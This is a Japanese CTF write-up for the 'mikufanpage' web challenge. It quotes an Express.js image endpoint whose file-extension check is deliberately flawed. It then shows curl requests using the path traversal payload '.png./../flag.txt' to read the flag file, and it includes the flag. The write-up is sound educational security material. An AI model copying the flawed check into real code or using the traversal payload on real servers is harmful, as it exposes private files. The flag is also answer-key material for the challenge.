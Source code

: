 # mikufanpage:web:104pts
miku <3 (epilepsy warning)  
[https://mikufanpage.web.osugaming.lol/](https://mikufanpage.web.osugaming.lol/)  

[mikufanpage.zip](mikufanpage.zip)  

# Solution
ソースとURLが渡される。  
アクセスするとmikuのファンページなようだ。  
![site.png](site/site.png)  
配布されたソースを見ると以下のようであった。  
```js
const express = require('express'); 
const path = require('path');
  
const app = express(); 
const PORT = process.env.PORT ?? 3000;

app.use(express.static(path.join(__dirname, 'public')));
  
app.listen(PORT, (err) =>{ 
    if(!err) 
        console.log("mikufanpage running on port "+ PORT) 
    else 
        console.log("Err ", err); 
}); 

app.get("/image", (req, res) => {
    if (req.query.path.split(".")[1] === "png" || req.query.path.split(".")[1] === "jpg") { // only allow images
        res.sendFile(path.resolve('./img/' + req.query.path));
    } else {
        res.status(403).send('Access Denied');
    }
});
```
画像を読み込む際にpathクエリを`.`で分割し、添え字1の値が`png`または`jpg`であるかチェックしている。  
添え字2以降をチェックしていないためトラバーサルできそうだ。  
ソースより、フラグは`./img/flag.txt`にあるとわかる。  
`.png./../flag.txt`のように存在しないディレクトリ`.png.`を与えて、一つ戻ってやればよい。  
以下のように行う。  
```bash
$ curl 'https://mikufanpage.web.osugaming.lol/image?path=.png./satoki'
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Error: ENOENT: no such file or directory, stat &#39;/app/img/.png./satoki&#39;</pre>
</body>
</html>
$ curl 'https://mikufanpage.web.osugaming.lol/image?path=.png./../flag.txt'
osu{miku_miku_miku_miku_miku_miku_miku_miku_miku_miku_miku_miku_miku}
```
flagが得られた。  

## osu{miku_miku_miku_miku_miku_miku_miku_miku_miku_miku_miku_miku_miku}